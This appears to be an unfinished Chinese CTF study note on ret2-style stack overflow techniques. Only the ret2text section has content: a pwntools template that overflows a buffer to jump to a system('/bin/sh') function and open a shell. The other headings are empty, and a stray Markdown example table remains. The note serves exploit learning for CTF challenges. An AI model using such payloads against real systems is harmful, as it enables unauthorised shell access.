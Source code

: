 - [ret2xxx系列](#ret2xxx系列)
  - [ret2text](#ret2text)
  - [ret2shellcode](#ret2shellcode)
  - [ret2libc](#ret2libc)
  - [ret2syscall](#ret2syscall)

 # ret2xxx系列
 ## ret2text

  1.有 `system("/bin/sh");` 时

```python
from pwn import *

io = process('./pwn1')              # 本地测试
# io = remote('', )                 # ('ip' , 端口)

getshell_code = 0x12345678          # 包含system("/bin/sh");的函数的地址

padding = 0xF + 4                   # 偏移量, 32位程序
payload = b'a' * padding + p32(getshell_code)

# padding = 0xF + 8                 # 偏移量, 64位程序
# payload = b'a' * padding + p64(getshell_code)

io.sendline(payload) 

io.interactive()

```


 | Syntax      | Description |
| ----------- | ----------- |
| Header      | Title       |
| Paragraph   | Text        |
 ## ret2shellcode

 ## ret2libc
 
 ## ret2syscall